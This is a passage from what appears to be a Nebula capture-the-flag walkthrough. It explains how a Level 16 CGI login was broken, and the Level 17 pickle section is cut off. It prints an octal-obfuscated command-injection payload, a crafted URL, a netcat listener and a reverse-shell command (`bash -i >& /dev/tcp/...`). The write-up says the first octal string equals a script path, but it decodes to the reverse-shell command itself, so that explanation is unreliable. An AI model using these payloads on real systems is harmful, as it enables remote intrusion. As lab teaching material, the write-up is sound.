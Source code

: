 ```c
}
```

When the binary flag is launched, the code in the `code` char array is executed. This code simply opens up a shell. We can then run `getflag` in the shell to finish the level.

## Level 16

After some tries, the following string (injected into the username) did the trick and allows to use the `egrep` command to execute arbitrary command :

```
("||$'\142\141\163\150\40\55\151\40\76\46\40\57\144\145\166\57\164\143\160\57\154\157\143\141\154\150\157\163\164\57\70\60\70\60\40\74\46\61'"
```

Here is the detailed explanation of the string, starting from the beginning:

- `("` : this allows to close the regex of the egrep, in a way that the regex is invalid. Indeed, `egrep "^("` will throw the error : `egrep: Unmatched ( or \(`.
- `||` : this allows to execute another command (it's the bash OR operator). As the previsous command failed (the `egrep`), bash will take the end of the command and execute it.
- `$'\142\141\163\150\40\55\151\40\76\46\40\57\144\145\166\57\164\143\160\57\154\157\143\141\154\150\157\163\164\57\70\60\70\60\40\74\46\61'` : this whole string is completely equivalent to the string `/tmp/launch_reverse_shell`. This equivalence comes from the fact that bash allows [ANSI C like strings](https://wiki-dev.bash-hackers.org/syntax/quoting#ansi_c_like_strings) when the string is enclosed like this : `$'string'`. With this we can put our whole string in octal notation. This way, when the perl script convert the string to uppercase, it won't have any effect as the octal notation contains only backslashes and numbers. Also, note that the script at `/tmp/launch_reverse_shell` simply opens up a reverse shell, i.e, executes the command `bash -i >& /dev/tcp/localhost/8080 <&1`.
- `"` : This is used only to have a correct bash syntax. As we have already closed the first quotation mark of the `egrep` using `("`, we now have to open a quotation mark to match the closing one of the `egrep`.

As we can see, using this particular syntax, none of the modifications done by the script (convert to uppercase + strip everything after the first space) affect our string. 

We can put this string in a crafted URL, in the username field. The final URL looks like this :

```
http://nebula:1616/index.cgi?username=("||$'\57\164\155\160\57\154\141\165\156\143\150\137\162\145\166\145\162\163\145\137\163\150\145\154\154'"
```

Just before reaching this URL, we use `netcat` to listen for incoming connection with `nc -l 8080`. We can then have a shell as user `flag16`, and `getflag` ends the level.

Bonus: note that it's possible to break the login scheme just by using `("` as username and `.*` as password ;-). However, it isn't helpful in this level...

## Level 17

We use the fact that we can trigger a call to an object with given arguments when `pickle` unpickle data. Here is our script:
